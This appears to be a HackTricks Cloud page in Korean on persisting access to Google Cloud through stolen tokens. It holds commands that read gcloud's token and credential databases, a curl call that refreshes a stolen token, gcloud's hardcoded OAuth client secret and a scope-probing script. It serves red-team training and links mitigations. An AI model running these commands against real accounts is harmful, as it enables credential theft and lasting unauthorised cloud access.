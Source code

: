 # GCP - Token Persistance

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### 인증된 사용자 토큰

사용자의 **현재 토큰**을 얻으려면 다음을 실행할 수 있습니다:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

이 페이지에서 **gcloud를 사용하여 이 토큰을 직접 사용하는 방법**을 확인하세요:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**새 액세스 토큰을 생성하는** 세부정보를 얻으려면 다음을 실행하세요:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**`$HOME/.config/gcloud/application_default_credentials.json`**와 **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**에서 리프레시 토큰을 찾는 것도 가능합니다.

**리프레시 토큰**, 클라이언트 ID 및 클라이언트 비밀을 사용하여 새로 갱신된 액세스 토큰을 얻으려면 다음을 실행하십시오:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

리프레시 토큰의 유효성은 **Admin** > **Security** > **Google Cloud session control**에서 관리할 수 있으며, 기본적으로 16시간으로 설정되어 있지만 만료되지 않도록 설정할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

`gcloud auth login`과 같은 것을 사용할 때의 인증 흐름은 브라우저에서 프롬프트를 열고 모든 범위를 수락한 후 브라우저가 도구에 의해 열려 있는 http 포트에 다음과 같은 요청을 보냅니다:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
그런 다음, gcloud는 일부 하드코딩된 `client_id` (`32555940559.apps.googleusercontent.com`) 및 **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`)와 함께 상태 및 코드를 사용하여 **최종 리프레시 토큰 데이터**를 가져옵니다.

{% hint style="danger" %}
로컬호스트와의 통신은 HTTP로 이루어지므로 리프레시 토큰을 얻기 위해 데이터를 가로챌 수 있지만, 이 데이터는 단 1회만 유효하므로 쓸모가 없습니다. 파일에서 리프레시 토큰을 읽는 것이 더 쉽습니다.
{% endhint %}

### OAuth 범위

모든 Google 범위는 [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes)에서 찾거나 다음을 실행하여 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

이 스크립트를 사용하여 **`gcloud`**가 인증에 사용하는 애플리케이션이 지원할 수 있는 범위를 확인할 수 있습니다:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
이 앱이 다음 범위를 지원하는지 확인한 후 실행되었습니다:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
흥미로운 점은 이 앱이 **`drive`** 범위를 지원한다는 것입니다. 이는 공격자가 사용자가 이 범위로 토큰을 생성하도록 강제할 경우 GCP에서 Workspace로 상승할 수 있게 해줄 수 있습니다.

**여기에서** [**이것을 악용하는 방법을 확인하세요**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### 서비스 계정

인증된 사용자와 마찬가지로, 서비스 계정의 **비공개 키 파일을 손상시키면 원하는 만큼** **접근할 수 있습니다**.\
그러나 서비스 계정의 **OAuth 토큰을 훔치면 더욱 흥미로울 수 있습니다.** 기본적으로 이러한 토큰은 한 시간 동안만 유용하지만, **피해자가 비공식 API 키를 삭제하면 OAuth 토큰은 만료될 때까지 여전히 유효합니다**.

### 메타데이터

명백히, GCP 환경에서 실행 중인 머신 내부에 있는 한, **메타데이터 엔드포인트에 연락하여 해당 머신에 연결된 서비스 계정에 접근할 수 있습니다** (이 엔드포인트에서 접근할 수 있는 Oauth 토큰은 일반적으로 범위에 의해 제한됩니다).

### 수정 사항

이러한 기술에 대한 몇 가지 수정 사항은 [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)에서 설명되어 있습니다.

### 참고 자료

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
